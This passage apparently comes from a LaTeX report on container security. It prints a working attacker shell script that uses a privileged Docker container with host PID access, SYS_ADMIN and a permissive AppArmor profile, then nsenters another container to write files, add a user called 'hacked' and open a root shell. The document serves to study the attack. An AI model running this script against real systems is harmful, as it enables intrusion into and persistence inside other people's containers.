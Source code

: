 \begin{lstlisting}[style=shellscript, caption={2\_run\_attacker\_to\_container.sh}]
#!/bin/sh

#List all running containers and keep the one including 'debian'
docker ps | grep debian > dockerps
#Keep the container's id
cut -d' ' -f1 dockerps > containerid
container_id=$(cat containerid)
#Find the pid of the container's process
docker inspect --format {{.State.Pid}} ${container_id} > PID
container_pid=$(cat PID)

#List contents of container's root directory
echo "====== ls / ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount ls /

#Touch a new file in container's root directory
echo "====== touch HelloFromTheOtherSide ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount touch HelloFromTheOtherSide

#Add a new user in the container
echo "====== useradd hacked ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount /usr/sbin/useradd hacked

#Create a shell in the container
echo "====== /bin/bash ======"
docker run --rm -it --security-opt "apparmor=attacker_profile" --pid=host --cap-add SYS_ADMIN debian:latest nsenter --target ${container_pid} --mount /bin/bash

#Clear files
rm PID
rm dockerps
rm containerid
\end{lstlisting}

The docker run command executed above have the same flags as in the attack to host, except for the capability SYS\_PTRACE which is no longer needed as we are targeting PIDs different from the PID 1. 

Moreover, after the attacker\_profile is loaded, it is used in order to allow the attack, exactly like the one used in host's attack except for the rule capability sys\_ptrace.

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile attacker\_profile}]
#include <tunables/global>

profile attacker_profile flags=(attach_disconnected,mediate_deleted) {
        capability sys_admin,
        file,  #This rule is needed so that I can work with files (create files/directories, copy, etc)
        capability sys_chroot,
        ptrace (read,trace),
}
\end{lstlisting}
	
